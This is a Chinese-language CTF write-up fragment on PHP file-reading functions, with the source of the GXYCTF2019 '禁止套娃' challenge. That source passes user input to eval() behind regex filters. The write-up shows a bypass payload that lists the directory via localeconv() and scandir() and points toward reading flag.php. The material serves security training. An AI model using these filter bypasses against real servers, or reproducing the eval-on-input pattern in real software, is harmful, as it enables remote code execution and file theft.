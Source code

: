 ### 文件读取

1. `file_get_contents`
2. `highlight_file`
3. `show_source`
4. `readfile`别名`readgzfile`
5. `file`把整个文件读入一个数组中

### 例题

#### [GXYCTF2019]禁止套娃

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

1. 首先对当前目录进行扫描,正常来说直接用`getcwd()`就可以直接获取当前目录,但是题目过滤了`et`字符,因此需要特殊构造

`localeconv`函数返回一包含本地数字及货币格式信息的数组,关键在于其第一个元素是小数点,因此可以构造`var_dump(scandir(current(localeconv())));`来读取当前目录

返回如下数据`array(5) {  [0]=>  string(1) "."  [1]=>  string(2) ".."  [2]=>  string(4) ".git"  [3]=>  string(8) "flag.php"  [4]=>  string(9) "index.php" }`

2. 想办法对`flag.php`进行读取

首先`file_get_contents`因为关键词`et`已经被过滤,可以使用`highlight_file`或者`show_source`或者`readfile()`进行代替

使用`array_rand`可以随机返回数组中的一个键名

```php
<?php
$a=array(".","..",".git","flag.php","index.php");
$random_keys=array_rand($a);
echo $random_keys;
echo $a[$random_keys];
?>
```
